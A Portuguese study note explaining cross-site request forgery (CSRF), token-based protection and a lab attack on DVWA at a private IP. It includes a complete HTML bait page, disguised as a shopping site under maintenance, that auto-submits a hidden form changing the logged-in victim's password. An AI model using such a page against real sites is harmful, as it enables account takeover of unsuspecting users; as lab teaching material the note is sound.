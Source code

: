 ## O que é?

   - É uma requisição forjada entre sites.


## Funcionalidade

   - Exemplo: um site qualquer com essa vulnerabilidade pode enviar uma requisição pro facebook mudando a senha do usuário, caso ele esteja logado, pois o cookie é necessário para fazer o POST. 


## Proteção contra CSRF

   - token: número aleatório, enviado junto da requisição. Número válido por sessão ou requisição, impedindo que o atacante use o token no formulário que ele está montando. 

## Ataque na prática

   - O ataque consiste em criar uma página web que fará uma requisição em outra trocando os dados do usuário logado.

   - Para isso, devemos subir um servidor apache na máquina e hospedar uma página web na pasta "/var/www/html". Feito isso, podemos criar um arquivo .html com o conteúdo abaixo. 
   ```
   <HTML>
   <head>
         <title> Shopping </title>
         <meta charset="UTF-8">
   </head>
   <body>
         <h1> Acessar página de compras </h1>
         <p> Site em manutenção </p>
         <form action="http://192.168.200.5/dvwa/vulnerabilities/csrf/">
                  <input type="hidden" name="password_new" value="novasenha">
                  <input type="hidden" name="password_conf" value="novasenha">
                  <input type="hidden" name="Change" value="Change">
         </form>
         <script> document.forms[0].submit(); </script>
   </body>
   </HTML>
   ```

   - Essa página html é extremamente simples e a parte mais importante é a tag form e script. 

   - A tag form define um método get, por padrão, na url especificada. Os inputs informam a nova senha, a confirmação dela e o 'click' no botão na página que apresenta o CSRF. 

   - A tag script faz o submit desse form, executa a ação dita na tag form.

   - É imprescindível o estudo da página que apresenta a falha CSRF, para o atacante saber como fará a página bait com o ataque CSRF.

   - Assim como XSS reflected, o CSRF deve passar a url da página que fará a requisição forçada para o cliente (client side).

   - NOTA IMPORTANTE: navegadores por padrão avisam ao cliente que aquela página está fazendo uma requisição a outra, pedindo confirmação e avisando a conexão não é segura. 
